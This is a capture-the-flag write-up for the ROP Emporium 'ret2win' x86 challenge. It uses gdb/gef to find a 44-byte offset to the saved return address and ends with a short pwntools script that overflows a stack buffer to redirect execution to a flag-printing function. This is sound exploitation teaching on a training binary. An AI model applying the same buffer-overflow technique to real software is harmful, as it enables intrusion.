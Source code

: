 # ret2win (x86)

For the x86 version of the challenge, we can see that the program contains the following functions : 

```nasm
gef➤  info functions
All defined functions:

Non-debugging symbols:
0x08048374  _init
0x080483b0  read@plt
0x080483c0  printf@plt
0x080483d0  puts@plt
0x080483e0  system@plt
0x080483f0  __libc_start_main@plt
0x08048400  setvbuf@plt
0x08048410  memset@plt
0x08048420  __gmon_start__@plt
0x08048430  _start
0x08048470  _dl_relocate_static_pie
0x08048480  __x86.get_pc_thunk.bx
0x08048490  deregister_tm_clones
0x080484d0  register_tm_clones
0x08048510  __do_global_dtors_aux
0x08048540  frame_dummy
0x08048546  main
0x080485ad  pwnme
0x0804862c  ret2win
0x08048660  __libc_csu_init
0x080486c0  __libc_csu_fini
0x080486c4  _fini
```

We get a bunch of not-so-interesting functions, as well as a `main`, `pwnme` and `ret2win` function. They are used for the following : 

- `main (0x08048546)` : nothing much except calling for the pwnme function
- `pwnme (0x080485ad)` : get the user input
- `ret2win (0x0804862c)` : target, prints the flag

Here’s how the `pwnme` function looks in Ghidra : 

```c
void pwnme(void)

{
  undefined input [40];
  
  memset(input,0,0x20);
  puts(
      "For my first trick, I will attempt to fit 56 bytes of user input into 32 bytes of stack buffe r!"
      );
  puts("What could possibly go wrong?");
  puts(
      "You there, may I have your input please? And don\'t worry about null bytes, we\'re using read ()!\n"
      );
  printf("> ");
  read(0,input,0x38);
  puts("Thank you!");
  return;
}
```

Now, we know that we’ll have to overwrite the `eip` register in order to make it point to `0x0804862c`.

To find the offset, we can use a De Bruijn sequence in order to find the offset that we’ll have to pass to our program in order to overwrite that register. Let’s do it in gdb : 

```nasm
gef➤  pattern create 100
[+] Generating a pattern of 100 bytes (n=4)
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
[+] Saved as '$_gef0'
```

Now, we insert a breakpoint right after the `read` function, and pass our sequence to see how it looks on the stack. 

```nasm
gef➤  b *0x08048616
Breakpoint 1 at 0x8048616
gef➤  r
Starting program: /home/dalf/ctf/ctf-writeups/ropemporium/ret2win/ret2win32
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
ret2win by ROP Emporium
x86

For my first trick, I will attempt to fit 56 bytes of user input into 32 bytes of stack buffer!
What could possibly go wrong?
You there, may I have your input please? And don't worry about null bytes, we're using read()!

> aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
```

With our input, the registers looks like this : 

```nasm
────────────────────────────────────────────────── registers ────────────────────────────────────────────────── 
$eax   : 0xb
$ebx   : 0xf7fab000  →  0x00229dac
$ecx   : 0xf7fac9b4  →  0x00000000
$edx   : 0x1
$esp   : 0xffffd460  →  0x6161616d ("maaa"?)
$ebp   : 0x6161616b ("kaaa"?)
$esi   : 0xffffd534  →  0xffffd687  →  "/home/dalf/ctf/ctf-writeups/ropemporium/ret2win/re[...]"
$edi   : 0xf7ffcb80  →  0x00000000
$eip   : 0x6161616c ("laaa"?)
$eflags: [zero carry PARITY adjust SIGN trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x23 $ss: 0x2b $ds: 0x2b $es: 0x2b $fs: 0x00 $gs: 0x63
```

As we can see, our $eip was overwritten with the value `0x6161616c`. To find the offset, we can use the gef command `pattern offset` with the content of it (0x6161616c). 

```nasm
gef➤  pattern offset 0x6161616c
[+] Searching for '6c616161'/'6161616c' with period=4
[+] Found at offset 44 (little-endian search) likely
```

We now have the info that we were looking for, the offset is 44 bytes away. Now we can build our exploit: 

```nasm
from pwn import *
target = process('./ret2win32')

payload = b""
payload += b"A"*44
payload += p32(0x0804862c)

target.sendline(payload)
target.interactive()
```

… and run it : 

```bash
Well done! Here's your flag:
ROPE{a_placeholder_32byte_flag!}
```

VAMONOS